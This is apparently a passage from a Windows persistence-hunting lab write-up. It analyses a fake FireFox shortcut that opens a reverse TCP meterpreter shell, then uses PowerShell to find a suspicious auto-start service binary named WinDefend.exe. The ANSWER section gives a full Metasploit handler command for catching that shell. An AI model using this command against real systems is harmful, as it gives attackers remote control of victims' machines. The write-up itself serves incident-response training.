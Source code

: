 Setting up a listener on port 5353 shows the malware connects and waits
for something but we don't know what.

Trying a few different payloads with Metasploit handler will reveal it
creates a reverse TCP shell for the attacker.

**ANALYSIS:**

The program is configured to execute when the TaskBar FireFox shortcut
is clicked, attempting to hide behind a legitimate program.  When
executed, the program makes an outbound connection to port 5353 on the
attacker's machine searching for a reverse TCP meterpreter shell
handler.

**ANSWER:**

This persistence method allows an attacker to obtain a meterpreter shell
with:

```bash
console -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.2.110; set LPORT 5353; run'
```

## Service Registry Permission

If an attacker can modify registry keys, the image path value of a
service can be changed to point to a different executable.

Service registry values are located at `HKLM:\System\CurrentControlSet\Services`.  Use `gci
HKLM:\System\CurrentControlSet\Services` to list all services.

Use `cd HKLM:\System\CurrentControlSet\Services` to navigate to the
service registry keys

To see the properties of a service, use `gp <service>`

We want to see image paths for each service.  Do this using `gp * | select PSChildName,ImagePath | ft -auto`

Look through the results for service binaries at odd locations (user
profiles, temp folders, non-system32, etc).

You can filter out the string "system32" using `gp * | select PSChildName,ImagePath | ft -auto | findstr /v /i system32`

Looking through the results shows a suspicious service with its binary
located in an unusual folder:

`WinDefend        C:\Users\Public\Recorded TV\WinDefend.exe`

Use `gp windefend` to show that "Start" is set to type 2 which means
it starts automatically and "DelayedAutoStart" is set to 1 which means
it actually starts two minutes after startup.

Executing the file while watching it in Process Explorer shows it starts
up and immediately exits.  It can't be associated to any network
activity or listening ports.
